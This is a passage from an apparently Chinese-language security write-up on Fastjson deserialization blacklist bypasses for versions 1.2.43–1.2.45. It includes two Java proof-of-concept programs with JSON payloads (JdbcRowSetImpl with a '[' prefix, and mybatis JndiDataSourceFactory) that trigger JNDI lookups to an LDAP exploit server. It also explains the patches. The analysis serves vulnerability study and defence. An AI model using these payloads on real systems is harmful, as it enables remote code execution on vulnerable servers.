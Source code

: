 提示缺少了一个``{``

```
public class POC `{`    public static void main(String[] args) `{`        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);        String PoC = "`{`\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[`{`, \"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true`}`";        JSON.parse(PoC);    `}``}`
```

[![](https://p4.ssl.qhimg.com/t01a65e0a6a8c9bf872.png)](https://p4.ssl.qhimg.com/t01a65e0a6a8c9bf872.png)

### <a class="reference-link" name="1.2.44%20%E4%BF%AE%E5%A4%8D%E6%96%B9%E5%BC%8F"></a>1.2.44 修复方式

将`[`进行限制，具体实现可自行查看。

再次执行前面的poc代码可以看到报错了。

### <a class="reference-link" name="1.2.45%E7%BB%95%E8%BF%87%E6%96%B9%E5%BC%8F"></a>1.2.45绕过方式

利用条件需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列&lt;3.5.0的版本。

```
public class POC `{`    public static void main(String[] args) `{`        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);        String PoC = "`{`\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":`{`\"data_source\":\"ldap://127.0.0.1:1389/Exploit\"`}``}`";        JSON.parse(PoC);    `}``}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012608e2ea52b3dd17.png)

下面来分析一下使用这个payload为什么能绕过。其实是借助了`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`进行绕过，`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`并不在黑名单中。

这里是对反序列化后的对象是`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

传入`properties`参数，则会去自动调用`setProperties`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011aa3809b12daa113.png)

[![](https://p5.ssl.qhimg.com/t01ed4a4e87b35deb83.png)](https://p5.ssl.qhimg.com/t01ed4a4e87b35deb83.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010c3eff789e81b509.png)

而在1.2.46无法执行成功，应该是对该类拉入了黑名单中。



## 1.2.25-1.2.47通杀

